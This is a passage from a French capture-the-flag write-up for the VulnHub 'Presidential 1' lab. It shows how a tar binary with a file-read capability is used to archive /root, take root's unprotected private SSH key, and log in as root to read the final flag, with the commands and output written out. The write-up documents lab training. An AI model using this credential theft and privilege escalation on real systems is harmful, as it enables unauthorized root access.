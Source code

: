 Merci j'avais pigé ! :p  

On peut donc utiliser la capability pour lire ce que l'on souhaite sur le système mais pas écrire malheureusement. On va archiver ce qui est dans le dossier de *root* :  

```bash
tarS cz /root > root.tar.gz
```

On y trouve entre autres les fichiers suivants :  

```plain
root/root-final-flag.txt
root/.ssh/
root/.ssh/id_rsa
root/.ssh/id_rsa.pub
root/.ssh/authorized_keys
```

Aucun mot de passe n'étant attaché à la clé privée on peut donc se connecter :  

```plain
[admin@votenow ~]$ ssh -p 2082 -i root/.ssh/id_rsa root@127.0.0.1
Last login: Sun Jun 28 00:42:56 2020 from 192.168.56.1
[root@votenow ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@votenow ~]# cat root-final-flag.txt 
Congratulations on getting root.

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by bootlesshacker - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear from you.
```

Mission accomplie !](https://www.vulnhub.com/entry/presidential-1,500/)

*Published December 26 2021 at 16:51*